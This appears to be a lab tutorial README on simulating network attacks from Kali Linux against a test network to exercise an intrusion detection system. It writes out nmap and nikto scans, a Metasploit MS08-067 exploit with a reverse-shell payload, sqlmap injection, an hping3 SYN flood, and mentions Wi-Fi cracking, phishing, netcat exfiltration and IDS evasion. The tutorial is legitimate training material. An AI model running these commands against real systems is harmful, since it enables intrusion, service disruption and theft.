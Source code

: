 Simulating a wide range of network attacks using Kali Linux in a laboratory environment is an effective way to learn about network's defenses and the responsiveness of your Intrusion Detection System (IDS). 
### 1. Reconnaissance and Scanning

- **Ping Sweep**:
  ```bash
  nmap -sn 192.168.1.0/24
  ```

- **TCP SYN Scan**:
  ```bash
  nmap -sS 192.168.1.105
  ```

- **TCP Connect Scan**:
  ```bash
  nmap -sT 192.168.1.105
  ```

- **UDP Scan**:
  ```bash
  nmap -sU 192.168.1.105
  ```

- **Stealthy Scan (Fragmented Packets)**:
  ```bash
  nmap -f 192.168.1.105
  ```

- **Aggressive Scan with OS and Service Detection**:
  ```bash
  nmap -A 192.168.1.105
  ```

- **Vulnerability Scanning (with tools like Nikto or OpenVAS)**:
  ```bash
  nikto -h 192.168.1.105
  ```

### 2. Exploitation and Attacks

- **Exploiting Known Vulnerabilities (using Metasploit)**:
  - Example for MS08-067:
    ```bash
    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    set RHOST 192.168.1.105
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST [Kali IP]
    exploit
    ```

- **SQL Injection Simulation (using sqlmap)**:
  ```bash
  sqlmap -u "http://192.168.1.105/login.php" --forms --risk=3 --level=5
  ```

- **Cross-Site Scripting (XSS) Attack Simulation**:
  - Use XSSer or manually inject scripts into vulnerable web forms.

- **Denial of Service (DoS) Attacks**:
  ```bash
  hping3 --flood --rand-source --syn 192.168.1.105
  ```

- **Distributed Denial of Service (DDoS) Simulation** (be cautious with this):
  - Requires a controlled environment and multiple machines or VMs.

### 3. Wireless Network Attacks

- **Wi-Fi Network Cracking (WEP, WPA/WPA2)**:
  - Use tools like `aircrack-ng` for capturing and cracking Wi-Fi passwords.

- **Evil Twin Attack**:
  - Set up a rogue access point with the same SSID as a legitimate network.

### 4. Credential Harvesting and Phishing

- **Setting Up a Phishing Page**:
  - Use tools like `SEToolkit` to create and host a phishing page.

- **Password Cracking**:
  - Use `John the Ripper` or `hashcat` to crack weak passwords.

### 5. Post-Exploitation

- **Data Exfiltration**:
  - Simulate data theft using `nc` (netcat) or other tools to transfer data from the target system.

- **Lateral Movement**:
  - Simulate movement within a network to access other systems.

### 6. Evasion Techniques

- **Firewall and IDS Evasion**:
  - Use `nmap` scripting engine or other tools for evading detection.

### Monitoring and Analysis

- After each test, monitor the network and IDS logs for alerts.
- Use Kibana, Splunk, or other SIEM tools to analyze the impact and response.

### Important Considerations

- **Authorization**: Ensure you have explicit permission to test the network.
- **Controlled Environment**: Perform these tests in a controlled environment to avoid unintended consequences.
- **Legal and Ethical Compliance**: Stay within legal and ethical boundaries.

